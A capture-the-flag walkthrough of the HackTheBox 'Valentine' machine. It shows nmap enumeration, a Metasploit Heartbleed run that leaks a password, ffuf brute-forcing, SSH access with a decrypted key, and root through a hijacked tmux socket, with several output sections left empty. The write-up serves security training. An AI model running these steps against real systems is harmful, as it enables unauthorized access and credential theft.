




# Exploiting the Valentine Machine on HackTheBox: A Detailed Walkthrough

## Introduction

Valentine is an easy machine on HackTheBox that involves exploiting the Heartbleed vulnerability to gain initial access and leveraging a misconfigured tmux session for privilege escalation. This walkthrough will guide you through the process of compromising the Valentine machine, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -p- 10.10.10.79 > nmap/service.log
```

**Nmap Results:**

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-04 08:46 EST
Nmap scan report for valentine.htb (10.10.10.79)
Host is up (0.22s latency).

PORT    STATE SERVICE   VERSION
22/tcp  open  ssh       OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http      Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/https Apache/2.2.22 (Ubuntu)
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2020-12-04T13:49:33+00:00; +1m05s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 1m04s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 121.30 seconds
```

**Key Services Identified:**

- **SSH (22):** OpenSSH 5.9p1
- **HTTP (80):** Apache httpd 2.2.22
- **HTTPS (443):** Apache httpd 2.2.22

### Web Enumeration

Visiting the HTTP and HTTPS services on ports 80 and 443 revealed the same image as the homepage.

**Webpage:**


The homepage is a hint for the Heartbleed vulnerability. We proceeded to exploit this vulnerability using Metasploit.

## Exploiting Heartbleed

### Understanding Heartbleed

Heartbleed is a vulnerability in the OpenSSL cryptographic library, which allows attackers to read sensitive information from the memory of affected servers.

### Using Metasploit

We used the `auxiliary/scanner/ssl/openssl_heartbleed` module in Metasploit to exploit the Heartbleed vulnerability.

**Metasploit Module Execution:**

```bash
msf6 > use auxiliary/scanner/ssl/openssl_heartbleed
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 10.10.10.79
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run
```

**Exploit Output:**



The exploit leaked some base64 strings in memory. Decoding `aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==` provided the password:

```
heartbleedbelievethehype
```

### Directory Brute-Forcing

Using `ffuf`, we discovered several directories:

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.79/FUZZ
```

**Key Directories Identified:**

- `/dev`

**Discovered Files:**



## Gaining Initial Access

### Extracting the SSH Key

The `hype_key` file contained data in decimal format. Decoding this data revealed an encrypted SSH key.

**SSH Key:**



### Decrypting the SSH Key

The `notes.txt` file contained a to-do list, which hinted at the passphrase for the SSH key. Using the passphrase `heartbleedbelievethehype`, we decrypted the SSH key and logged into the `hype` account.

**SSH Access:**

```bash
ssh -i hype_key hype@10.10.10.79
```

**User Shell Obtained:**



## Privilege Escalation

### Enumerating Tmux Sessions

Running `linpeas.sh` revealed that root had an active tmux session with a socket at `/.devs/dev_sess`.

**Tmux Socket Permissions:**

```bash
hype@Valentine:~/Desktop$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Dec  4 22:45 /.devs/dev_sess
```

### Hijacking the Tmux Session

We attached to the root tmux session to gain a root shell.

**Attaching Tmux Session:**

```bash
tmux -S /.devs/dev_sess
```

**Root Shell Obtained:**


## Conclusion

The Valentine machine on HackTheBox provided a comprehensive challenge, encompassing web application enumeration, Heartbleed exploitation, and privilege escalation through a misconfigured tmux session. By methodically enumerating services and exploiting discovered vulnerabilities, we successfully compromised the machine and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.